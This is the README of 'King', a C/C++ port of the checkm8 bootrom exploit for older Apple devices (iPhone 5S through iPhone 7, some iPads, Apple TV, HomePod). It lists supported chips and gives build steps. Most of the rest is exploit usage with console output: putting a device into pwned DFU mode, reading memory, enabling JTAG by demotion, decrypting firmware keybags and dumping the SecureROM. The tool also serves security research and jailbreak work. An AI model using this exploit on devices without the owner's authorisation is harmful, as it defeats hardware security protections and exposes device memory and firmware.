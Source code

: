 # King

Port of [@axi0mX's](https://twitter.com/axi0mx) checkm8 exploit ([ipwndfu](https://github.com/axi0mX/ipwndfu)) to C/C++

**Supported devices:**

* `S5L8960X`
  * `iPhone 5S`
  * `iPad Mini 2`
  * `iPad Mini 3`
* `T7000`
  * `Apple TV (4th generation)`
  * `HomePod`
  * `iPad mini 4`
  * `iPhone 6`
  * `iPhone 6 Plus`
  * `iPod touch (6th generation)`
* `S8000` and `S8003`
  * `iPad (5th generation)`
  * `iPhone 6s`
  * `iPhone 6s Plus`
  * `iPhone SE`
* `T8010`
  * `iPad (6th generation)`
  * `iPhone 7`
  * `iPhone 7 Plus`

**Works on:**

 * `Windows` (see notes below)
 * `Linux` (tested on `Ubuntu 16.04` and `Ubuntu 19.10`)
 * `MacOS` (cmake-building not working now, do it yourself)


## Windows notes

Requirements:

* `libusbK` driver (can be installed with [zadig](https://zadig.akeo.ie/))
* `libusb` with fixed `MAX_PATH_LENGTH` ([see this PR](https://github.com/libusb/libusb/pull/699))

## Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

## Run checkm8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

## Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

## Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

## Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```

## Hexdump
```
C:\src\King\build>Release\king.exe hexdump 0x100000200 0x90
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
0000000100000200: 53 65 63 75 72 65 52 4f 4d 20 66 6f 72 20 74 37  SecureROM for t7
0000000100000210: 30 30 30 73 69 2c 20 43 6f 70 79 72 69 67 68 74  000si, Copyright
0000000100000220: 20 32 30 31 33 2c 20 41 70 70 6c 65 20 49 6e 63   2013, Apple Inc
0000000100000230: 2e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000240: 52 45 4c 45 41 53 45 00 00 00 00 00 00 00 00 00  RELEASE.........
0000000100000250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000270: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000280: 69 42 6f 6f 74 2d 31 39 39 32 2e 30 2e 30 2e 31  iBoot-1992.0.0.1
```

## SecureROM dumping
```
C:\src\King\build>Release\king.exe dump-rom
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
Saved: SecureROM-t7000si-RELEASE-1992.0.0.1.19.dump
```
